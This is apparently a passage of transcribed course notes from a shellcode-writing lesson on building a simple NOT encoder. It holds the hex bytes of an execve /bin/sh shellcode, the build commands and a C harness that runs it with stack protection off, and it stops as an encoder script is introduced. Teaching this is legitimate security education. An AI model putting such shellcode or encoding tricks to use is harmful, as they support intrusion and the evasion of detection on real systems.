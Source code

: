 #Simple NOT encoder

Hello students! In this video we will take up very first custom 
encoder which is going to be a very simple NOT encoder.

Now, what is a NOT encoder. It transforms every byte in your shellcode
using NOT.

And as you may already guess decoder will `not` the encoded byte to get
the original shellcode byte. Then we will pass control to the original
shellcode bytes after decoding happens.

First, let me copy shellcode we will be using `execve-stack.nasm`.

```
nasm -f elf32 execve-stack.nasm
ld -o execve-stack execve-stack.o
shellcode-dump.sh execve-stack
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Paste it in `shellcode.c`

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

```
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

```
$ ./shellcode 
Shellcode Length:  25
$ 
$ 
$ 
```

shellcode works fine. Now, the first thing what I need, of course, is
my NOT encoder. I've written very simple `Encoder.py` file
